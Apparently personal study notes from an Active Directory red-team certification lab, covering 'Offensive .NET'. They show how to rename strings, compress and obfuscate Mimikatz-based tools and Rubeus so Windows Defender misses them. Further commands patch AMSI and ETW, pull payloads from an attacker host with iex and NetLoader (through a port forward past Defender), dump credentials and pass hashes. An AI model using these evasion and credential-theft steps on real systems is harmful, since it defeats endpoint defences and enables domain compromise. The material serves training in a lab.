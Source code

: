 ```yaml
---
title: "4 - Offensive .NET"
classes: single
header:  
  teaser: /assets/images/posts/crtp/crtp-teaser5.jpg
  overlay_image: /assets/images/main/header5.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Use Minimal obfuscation and String manipulation to bypass Win Defender"
description: "Use Minimal obfuscation and String manipulation to bypass Win Defender"
categories:
  - notes
  - crtp
tags:
  - beginner
  - AD
  - Windows
  - bypass 
toc: true
---
```


# Offensive .NET

**A repo of popular Offensive C# tools**:

[SharpCollection on GitHub](https://github.com/Flangvik/SharpCollection)

[Mimikatz on GitHub](https://github.com/gentilkiwi/mimikatz)


## Tradecraft - AV bypass

> We will focus mostly on bypass of signature based detection by Windows Defender

For that, we can use techniques like Obfuscation, String Manipulation etc.

We can use DefenderCheck:

[DefenderCheck on GitHub](https://github.com/matterpreter/DefenderCheck)

> To identify code and strings from a binary that Windows Defender may flag.

This helps us in deciding on modifying the source code and minimal obfuscation.


### SharpKatz

Let's check SharpKatz.exe for signatures using DefenderCheck
```powershell
DefenderCheck.exe <Path to Sharpkatz binary>
```

- Open the project in Visual Studio.
- Press **CTRL + H**
- Find and replace the string "Credentials" with "Credents" you can use any other string as an replacement. (Make sure that string is not present in the code)
- Select the scope as **Entire Solution**.
- Press **Replace All** button.
- Build and recheck the binary with *DefenderCheck*.
- Repeat above steps if still there is detection

### Safetykatz

For SafetyKatz, we used the following steps
- Download latest version of Mimikatz and **Out-CompressedDll.ps1**

Run the Out-CompressedDll.ps1 PowerShell script on Mimikatz binary and save the output to a file
```powershell
Out-CompressedDll <Path to mimikatz.exe> > 	outputfilename.txt
```	

[Out-CompressedDll.ps1 in PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)


- Copy the value of the variable **$EncodedCompressedFile** from the output file above and replace the value of **compressedMimikatzString** variable in the **Constants.cs** file of SafetyKatz.

- Copy the byte size from the output file and replace it in **Program.cs** file on the line 111 & 116.
- Build and recheck the binary with *DefenderCheck*

### BetterSafetyKatz

For BetterSafetyKatz, we used the following steps
- Download the latest release of "mimikatz_trunk.zip" file.
- Convert the file to base64 value

![Alt text](/assets/images/posts/crtp/3.png){: .align-center}




Modify the **Program.cs** file.

– Added a new variable that contains the base64 value of **mimikatz_trunk.zip** file.
– Comment the code that downloads or accepts the mimikatz file as an argument.
– Convert the base64 string to bytes and pass it to **zipStream** variable

![Alt text](/assets/images/posts/crtp/4.png){: .align-center}




### Rubeus

For Rubeus.exe, we used **ConfuserEx** to obfuscate the binary

[ConfuserEx on GitHub](https://github.com/mkaring/ConfuserEx)


Launch ConfuserEx:
- In Project tab select the Base Directory where the binary file is located.
- In Project tab Select the Binary File that we want to obfuscate.
- In Settings tab add the rules.
- In Settings tab edit the rule and select the preset as **Normal**.
- In Protect tab click on the protect button.

> We will find the new obfuscated binary in the Confused folder under the Base Directory.

![Alt text](/assets/images/posts/crtp/5.png){: .align-center}



- After obfuscating the binary with ConfuserEx rescan using DefenderCheck we can see the detection of GUID.
- Generate and modify the GUID and compile Rubeus again and rerun the ConfuserEx on the Rubeus.exe binary.

![Alt text](/assets/images/posts/crtp/6.png){: .align-center}



## Payload Delivery     


We can use NetLoader to deliver our binary payloads.

[NetLoader on GitHub](https://github.com/Flangvik/NetLoader)


It can be used to load binary from filepath or URL and patch AMSI & ETW while executing:
```powershell
C:\Users\Public\Loader.exe -path http://192.168.100.X/SafetyKatz.exe
```

We also have AssemblyLoad.exe that can be used to load the Netloader in-memory from a URL which then loads a binary from a filepath or URL:
```powershell
C:\Users\Public\AssemblyLoad.exe http://192.168.100.X/Loader.exe -path http://192.168.100.X/SafetyKatz.exe
```

### [1] - Getting DA through dcorp-ci
```powershell
iex (iwr http://<ip>/sbloggingbypass.txt -UseBasicParsing)
# bypass ASMI manually
iex ((New-Object Net.WebClient).DownloadString('http://<ip>/PowerView.ps1'))
FInd-DomainUserLocation
winrs -r:<machine> <command> //example winrs -r:dcorp-mgmt hostname;whoami
iwr http://<ip>/Loader.exe -OutfFile C:\Users\Public\Loader.exe
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```


> [NOTE] Windows Defender will block all binaries/executables that are downloaded from remote sources
So, we will configure a portforward to request payload from local loopback. 

> Even if Defender is watching this, because is not remotely the payload its not blocked

```powershell
$null | winrs -r:dcorp-mgmt “netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=<attacker IP>”
$null | winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

Create a new PS with high integrity:
```powershell
Rubeus.exe asktgt /user:svcadmin /aes256:<dc hash> /opsec /creanetonly:C:\windows\System32\cmd.exe /show /ptt
```


### [2] - Getting DA through derivative local admin

```powershell
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Verbose

Enter-PSSession <the machine we have local admin access>
```

> we have to bypass AMSI here, but the shell is in **ConstrainedLanguage** Mode

```powershell
$ExecutionContext.SessionState.LanguageMode
```

> we need to search what kind o policy is blocking us : **applocker**, **wdigest**
 
 ```powershell  
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
or
```powershell
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2 # "AppLocker = Software Restrict Policy Version 2"
```

Lets copy mimiEx to the target machine

From attacker:
```powershell
Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```

> Enter the machine again with PSSession and execute the MimiEx.ps1


From attacker:
```powershell
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe “sekurlsa::opassth” /user:srvadmin /domain:dollarcorp.moneycorp.local /aes256:<hash> /run:cmd.exe" “exit”
```

- This will open a shell with the hash we got with **mimiEx**
- Firstly found what machines this user has local admin access

> [EXTRA] **Session: Service From 0** = means that there is a service using the account as a service account
> so, there is a chance of cached cleartext password on mimikatz results



In the new shell:
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Verbose
```

> At this point, we can access dump the credentials like we did before in the last path
> Opening a portforward and dump through local loopback                                          ]


